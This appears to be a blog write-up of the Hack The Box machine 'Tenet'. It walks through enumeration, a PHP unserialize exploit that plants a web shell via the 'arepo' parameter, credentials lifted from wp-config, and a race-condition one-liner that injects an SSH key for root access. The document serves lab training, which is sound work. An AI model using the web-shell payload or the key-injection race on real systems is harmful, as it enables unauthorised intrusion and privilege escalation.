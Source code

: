 ```yaml
---
layout: post
title: Tenet
published: true
---
```


Tenet is a medium machine from Hack The Box.

### Enumeration

A nmap scan reveals only 2 ports open on the box: 22 and 80. It looks like the web server is running WordPress 5.6. Good to know.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I take a look at the web page, I run a wpscan in the background to enumerate any possible vulnerable plugins or themes.

`wpscan --url http://tenet.htb -e --api-token <api-token> -o wpscan.txt`

I found a few vulnerabilities but they all seem to be dead ends.

![Pasted image 20210610104151](https://user-images.githubusercontent.com/60187707/121790099-9088f500-cba1-11eb-993b-c5966a39c4ef.png)

Posts on the site reveal 2 users, `neil` and `protagonist`, which `wpscan` also found. 
A comment on a post refers to a file, `sator.php`, and its backup.

![image](https://user-images.githubusercontent.com/60187707/121790142-fe352100-cba1-11eb-89b8-3224d4ef9dc5.png)

After navigating to `/sator.php` in the browser, it looks the page is still up.

![image](https://user-images.githubusercontent.com/60187707/121790159-26248480-cba2-11eb-9028-897e05066999.png)

### Exploitation

Navigating to `/sator.php.bak` initiates a download of the file.
```

class DatabaseExport
{
	public $user_file = 'users.txt'; ## Variables?
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()        ## Concatenation\/
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';          ## $objects
$databaseupdate = unserialize($input);  ## UNSERIALIZES INPUT
echo serialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

PHP is a bittt over my head at the moment, but after some [reading](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and some [more reading](https://notsosecure.com/remote-code-execution-via-php-unserialize/), I think I know enough to exploit it.

The PHP code accepts user input in the form of a parameter named `arepo` and then unserializes that input. There is a vulnerability in the way that PHP magic methods like `__destruct()` handle serialized objects that can lead to RCE.
So, if I craft a serialized object that contains a payload, `sator.php` will execute my payload when it unserializes my input.

```
<?php

class DatabaseExport 
{
	public $user_file = 'tron.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));

?>

```
Running this PHP script will output a serialized object in which I have redefined the variables `$user_file` and `$data`. When `sator.php` executes, it will create a new file named `tron.php` that contains a parameter I can interact with for RCE.

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Place the serialized object into the `arepo` parameter:
`10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}`

After some finagling with URL encoding via burp, I get a reverse shell on the machine.

![Pasted image 20210612153735](https://user-images.githubusercontent.com/60187707/121790353-3e959e80-cba4-11eb-9e3e-1730cd348c9f.png)

On as `www-data`:

![Pasted image 20210612154138](https://user-images.githubusercontent.com/60187707/121790360-46554300-cba4-11eb-949e-2dc4a5f0fc59.png)

### Privilege Escalation

Not much to do as `www-data`, but `neil` is also a user on this box, so I start looking for credentials of some kind.
I know that `wp-config` usually has credentials, so I go digging.

Found some credentials for `neil`. 
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

SSH in as `neil` with his password, and now I can look around some more.

`sudo -l`

![Pasted image 20210612154801](https://user-images.githubusercontent.com/60187707/121790443-017ddc00-cba5-11eb-97ae-d94db40f8bfc.png)

There is a script that `neil` can run with `sudo`.

```
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}
checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}
addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
}
```

The script writes an SSH key into a file with a randomly generated name in the format `/tmp/ssh-XXXXXXXX`, then uses `cat` to append that key to `/root/.ssh/authorized_keys`. There appears to be a race condition here, as the `$tmpName` file exists during the `checkFile` process, before it's written to `authorized_keys`, so if I am constantly writing  my own SSH key to any file in the `/tmp` directory that fits the format `/tmp/ssh*`, I should be able to overwrite the root user's key. 

`while true; do echo "<id_rsa.pub> | tee /tmp/ssh* > dev/null; done &`

This one-liner will do just that. I run it in the background while I run `sudo /usr/local/bin/enableSSH.sh`. 

After a couple of tries, I can SSH in as `root` with no password.

![Pasted image 20210612170356](https://user-images.githubusercontent.com/60187707/121816382-e82a6d80-cc40-11eb-915c-8dc8e1258c65.png)




